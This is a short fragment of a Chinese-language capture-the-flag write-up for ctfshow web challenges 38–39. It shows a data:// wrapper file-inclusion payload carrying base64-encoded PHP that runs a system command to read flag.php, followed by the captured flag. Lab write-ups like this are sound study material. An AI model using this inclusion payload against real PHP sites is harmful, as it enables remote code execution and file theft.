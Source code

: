 ![web37_data](./image/web37_data.png)

## Web38

在上一题基础上新增过滤：php file

直接用base64编码那条payload

`/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==`

flag: ctfshow{402de529-10b9-456e-babe-8730515a77d2}

## Web39

题目：做了个拼接在包含

![web39_timu](./image/web39_timu.png)
